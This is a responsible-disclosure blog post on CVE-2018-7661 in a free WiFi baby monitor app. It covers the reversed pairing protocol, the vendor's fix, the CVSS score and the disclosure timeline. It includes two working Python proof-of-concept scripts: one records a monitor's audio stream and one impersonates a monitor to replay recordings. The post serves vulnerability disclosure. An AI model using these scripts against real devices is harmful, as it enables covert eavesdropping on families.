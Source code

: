 ```yaml
---
categories: ["articles"]
tags: ["responsible-disclosure", "mobile"]
date: 2018-02-25T00:00:00Z
title: "Eavesdropping on WiFi Baby Monitor"
url: /2018/02/25/eavesdropping-on-wifi-baby-monitor/
---
```


Written by [Rob](/authors/rob/)

Whilst analysing a number of free communication based applications on the Google Play Store, I took a look at [WiFi Baby Monitor: Free & Lite](https://play.google.com/store/apps/details?id=com.papenmeier.wifibabymonitor.free&hl=en_GB) (the free version of [WiFi Baby Monitor](https://play.google.com/store/apps/details?id=com.papenmeier.wifibabymonitor&hl=en_GB)). Although the premium version offered users the ability to specify a password to be used in the pairing process, the free version offered no such function.

Monitoring the traffic using Wireshark during the pairing process revealed:

* The initial connection is made on port 8257
* To start the pairing process, the same sequence is sent each time
* After the pairing process is finished, another connection is opened to port 8258, where the audio data will be transmitted
* After the connection is made to port 8258, the connection on port 8257 is kept open and used as a heartbeat for the session
* On the heartbeat connection, the client will periodically send `0x01` to the baby monitor (roughly once per second)

## Abusing The Protocol to Record Audio
With the pairing process reversed, it was possible to create a proof of concept which proved that it was possible to deploy a small program into a compromised network which would eavesdrop on a baby monitor and allow for an attacker to play the recording back at a later date at their discretion.

The \[very hacky\] proof of concept code can be found below:

```python
import socket
import sys
import time

if len(sys.argv) < 2:
    print "Usage: python {file} target_ip [port]".format(file = sys.argv[0])
    exit(1)

target = sys.argv[1]
port = 8257

if len(sys.argv) == 3:
    port = int(sys.argv[2])

s = socket.socket()
s.connect((target, port))
s.send('\x01')
s.send('\x02\x64\x00\x00\x00\x13\x2b\x52\x65\x63\x65\x69\x76\x65\x72\x53' +
       '\x74\x61\x72\x74\x5f\x32\x2e\x30\x32\x00\x00\x00\x00\x03\x23\x31' +
       '\x30\x00\x00\x00\x00\x03\x23\x32\x30\x00\x00\x00\x00\x03\x23\x32' +
       '\x31\x00\x00\x00\x00\x03\x23\x32\x32\x00\x00\x00\x00\x03\x23\x32' +
       '\x33')

heartbeat_dump = open('dump.heartbeat.bin', 'wb')
data_dump = open('dump.data.bin', 'wb')

has_data_socket = False
data_socket = socket.socket()
delta = 0

while True:
    time.sleep(1)
    data = s.recv(2048)
    if data is not None:
        heartbeat_dump.write(data)
        print '[*] Received {bytes} bytes on heartbeat socket'.format(bytes = len(data))
        s.send('\x01')

    if has_data_socket:
        data = data_socket.recv(2048)
        if data is not None:
            data_dump.write(data)
            print '[*] Received {bytes} bytes on data socket'.format(bytes = len(data))
            data_socket.send('\x01')
    else:
        print '[*] Establishing data connection'
        data_socket.connect((target, 8258))
        data_socket.send('\x01')
        data_socket.send('\x02\x64\x00\x00\x00\x07\x33\x5f\x5f\x30\x30\x30\x30')
        has_data_socket = True
        print '[*] Established data connection'

    delta += 1

heartbeat_dump.close
data_dump.close
```

This script establishes a connection to the baby monitor and begins to dump out the data from port 8257 to `dump.heartbeat.bin` and the data from port 8258 to `dump.data.bin`.

## Replaying the Recordings
In order to replay the recordings made by the proof of concept, I created a second script which would act as a baby monitor and replay the data back to a client; which allows for replay via the original application:

```python
import socket
import sys
import time

s = socket.socket()
s.bind(('0.0.0.0', 8257))
s.listen(5)
print '[*] Heartbeat socket listening on port 8257'

data_socket = socket.socket()
data_socket.bind(('0.0.0.0', 8258))
data_socket.listen(5)
print '[*] Data socket listening on port 8258'

data = ''
with open('dump.heartbeat.bin', 'r') as replay_file:
    data = replay_file.read()

wav_data = ''
with open('dump.data.bin', 'r') as wav_file:
    wav_data = wav_file.read()

c, addr = s.accept()
print '[*] Connection from {client}'.format(client = addr)
c.send(data)

data_connection, addr = data_socket.accept()
print '[*] Data connection from {client}'.format(client = addr)
data_connection.send(wav_data)

buf_start = 0
buf_end = wav_data.find('\x00\x00\x00\x01', 1)
buf = wav_data[buf_start:buf_end]

while buf is not None:
    c.send('\x01')
    print '[*] Sending {bytes} bytes'.format(bytes = len(buf))
    data_connection.send(buf)
    time.sleep(0.1)

    if buf_end == -1 or buf_start == -1:
        buf = None
    else:
        buf_start = buf_end
        buf_end = wav_data.find('\x00\x00\x00\x01', buf_end + 1)
        if buf_end == -1:
            buf = wav_data[buf_start:]
        else:
            buf = wav_data[buf_start:buf_end]

data_connection.close()
c.close()
print '[*] Connection closed'
```

A demonstration of the replay script accepting a connection from a client and replaying a recording can be seen below:

<iframe src="https://player.vimeo.com/video/258487598" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

## Solution
When notified, the vendor took the \[respectably\] responsible approach and made available to the free version the security features that were previously exclusive to the premium version.

To prevent this attack, users can simply update to the latest version of the application (v2.02.2, at the time of writing this).

## CVE-ID
[CVE-2018-7661](https://www.cvedetails.com/cve/CVE-2018-7661/)

## CVSS Score
**CVSS Base Score**: 5.9

**Impact Subscore**: 4.2

**Exploitability Subscore**: 1.6

**CVSS Temporal Score**: 5.3

**Overall CVSS Score**: 5.3

**Vector:** [AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:O/RC:C](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:O/RC:C)

## Disclosure Timeline
* **2018-02-11**: Initial contact with vendor to make them aware of the attack vector
* **2018-02-12**: Vendor acknowledged the issue and provided keys to test the premium version to verify the encryption and password protection would resolve the issue
* **2018-02-15**: Confirmation sent to vendor to let them know the proposed solution should nullify the attack
* **2018-02-16**: Vendor begins roll-out process for the new update
* **2018-02-22**: Roll-out process completed and version 2.02.2 made available to the public
